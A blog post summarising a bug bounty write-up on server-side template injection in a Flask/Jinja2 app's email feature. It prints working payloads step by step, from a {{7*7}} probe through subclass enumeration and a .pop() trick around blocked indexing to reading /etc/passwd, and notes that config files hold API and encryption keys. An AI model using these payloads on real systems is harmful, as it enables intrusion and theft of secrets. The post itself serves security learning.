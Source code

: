 ```yaml
---
layout: post
title:  Bug-Bounty-Writeups-Summary-4
date:   2019-10-31
categories: Bug-Bounty-Writeups-Summarry
comments: false
---
```

Hello friends, Here is Part 4 of Bug Hunting Writeup Summary ->


### 1. https://medium.com/@akshukatkar/rce-with-flask-jinja-template-injection-ea5d0201b870

RCE with Flask Jinja Template Injection - By Akshay Katkar

Well, this is very awesome writeup and we can learn RCE using flask jinja template injection.

Here is the Key Learn from writeup ->

* The program which he got was private , and  had not large scope, just a single app with lots of features to test

* First, The Author tried to know Technology used by Target  using "**Wappalyzer**" add-on

*  The Target was using Angular dart , python Django & flask

* So, whenever we see python related technologies like Flask and Django , we must try flask ninja template injection as a TRY

* The author knows Python very well and having a good experience with it, and know where developer makes mistake

* The Target have One **Utility** named as **work flow builder**, which is use to build  a financial close process flow. We can Automate daily activities with it like sending approval & sending reminder emails

* Sending Email Functionality , Author said that most of the times e**mail generator apps** are **vulnerable** to **Template Injection**

* Author thought of target sing Jinja2 template as target was built with Python

* Send Email functions have 3 Fields -><br>
a) To<br>
b) Title<br>
c) Description<br>

* He used Payload ->

```python
{{7*7}}
```
in **Title** and **Description** field and click on send email buttion.

* He got email as **"49"** in Subject and 

```python
{{7*7}}
``` 
as Description. That mean Subject field is vulnerable to Template Injection

![](https://miro.medium.com/max/1111/1*DPLFosKmDKcxqKSkw9J2Zw.png)

<br>

* 

```python
{{7 * 7}}
``` 
what this doing is evaluating python code inside curly brackets

* Now, he tried another payload to get list of sub classes of object class

```python
Payload : {{ [].__class__.__base__.__subclasses__() }}
```
<br><br>
Response He got like this -><br>

![](https://miro.medium.com/max/1509/1*k__m6Ah1EvCEmDL-18aecQ.png)

<br><br>

* Now, the best part is Author explain the code above he used ->

```python
1. []  
This is used to create list in Python

2. [].__class__
<type 'list'>   #return class of list

List is sub class of “object” class.

3. Access sub classes of object class .

[].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>.....

This payload gives us a list of all sub classes “object” class.
```
<br><br>
* Now to make this vulnerability to P1 he need to provide POC of using commands like '/etc/passwd' , 'id', 'whoami' etc
<br>

* Author told us that -> 
<br>

"**Most of django apps have config file which contains really sensitive info like AWS keys , API’s & encryption keys.**" 

<br>

* Author already knew path of config file becuase of his previous findings, So for this writeup POC, he decided to read a file. [/etc/passwd]
<br>

* So, to read a file in Python we have to create object of **"file"**.

```python
[].__class__.__base__.__subclasses__().index(file)
40  #return index of "file" object
```

this payload in python interpreter we will get index of “file” object

<br>

* When he tried that payload didn't work. He got error like this -><br><br>


![](https://miro.medium.com/max/1075/1*CLXJs210jIR0nQXjTT2cjw.png)

<br>

* Next he tried to directly access file object like this ->

```python
{{[].__class__.__base__.__subclasses__()[40] }}
```
<br>

But again failed.

* It's mean Payload is breaking somewhere.After some try he concluded that may be indexing is block or breaking his payload

* So, Author now told us that in Python to return  a value of list "pop" method is use.
As example ->

<br>

```python
>>> [1,2,3,4,5].pop(2) 
3
```

* Base on that he created payload like ->
                    
```python
{{[].__class__.__base__.__subclasses__().pop(40) }}
```
That payload gave  object of **"file"**

<br>

![](https://miro.medium.com/max/1239/1*WqZboWvRQfrEbRQeBR2sIg.png)
<br>

* Now for read "/etc/passwd" ->

```python
{{[].__class__.__base__.__subclasses__().pop(40)('etc/passwd').read() }}
```


![](https://miro.medium.com/max/1114/1*QpfhUYMZ5Unug8qzu69KFA.png)
<br>

* So, now we can read "/etc/passwd" file on server.

* Now author can read local files on the GCE instance responsible for sending notifications, including some source code, and configuration files containing very sensitive values (e.g. API and encryption keys).
<br>

This is very superb writeup by Akshay Katkar, We learn many things from this writeup

<br>

Like , first anyalyze the target technologies, understand the application functionalities, understand python usages for read file and when stuck tried some experiments instead of giving up.



